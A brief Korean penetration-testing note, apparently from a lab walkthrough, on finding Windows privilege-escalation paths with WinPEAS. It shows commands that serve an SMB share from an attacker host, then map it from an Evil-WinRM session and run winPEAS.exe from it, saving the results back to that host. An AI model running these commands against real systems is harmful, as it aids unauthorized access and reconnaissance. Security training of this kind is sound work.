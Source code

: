 # 자동 실행을 통한 권한 상승

## 시스템  내부

WinPEAS : 윈도우 호스트에서 권한을 에스컬레이션할 수 있는 가능한 경로를 검색하는 스크립트

```bash
#파일 공유 서비스 실행
python3 smbserver.py -username df -password df share . -smb2support

#파일 다운로드
*Evil-WinRM* PS C:\> net use \\10.10.14.30\share /u:df df
The command completed successfully.
*Evil-WinRM* PS C:\> cd \\10.10.14.30\share\
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.14.30\share>
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.14.30\share> .\winPEAS.exe cmd fast > sauna_winpeas_fast
```

